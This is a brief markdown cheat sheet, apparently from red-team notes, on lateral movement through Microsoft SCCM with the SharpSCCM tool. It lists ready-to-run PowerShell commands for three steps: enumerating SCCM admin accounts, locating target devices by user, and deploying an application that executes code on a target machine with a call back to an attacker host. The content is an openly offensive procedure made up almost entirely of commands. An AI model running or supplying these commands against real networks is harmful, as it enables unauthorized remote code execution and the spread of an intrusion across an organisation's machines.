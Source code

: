 # Lateral Movement

## Enumeration

```powershell
# enumerate admin and special accounts
.\SharpSCCM.exe get class-instances SMS_ADMIN
.\SharpSCCM.exe get class-instances SMS_SCI_Reserved
```

## Application Deployment

> After the enumeration phase it's time to move laterally. Currently the only method I know of to abuse SCCM components for lateral movement is by creating and deploying an application/script to execute code on another device.

```powershell
# Confirm access permissions - Confirm your current account holds sufficient SCCM administrative permission to pull off your execution plan:
.\SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames

# Find target devices to exploit, must be active and online
## Search for device of user "Frank.Zapper"
.\SharpSCCM.exe get primary-users -u Frank.Zapper

## List all active SCCM devices where the SCCM client is installed 
### CAUTION: This could be huge
.\SharpSCCM.exe get devices -w "Active=1 and Client=1"

# Deploy Application to target device
.\SharpSCCM.exe exec -rid <TargetResourceID> -r <AttackerHost>
```

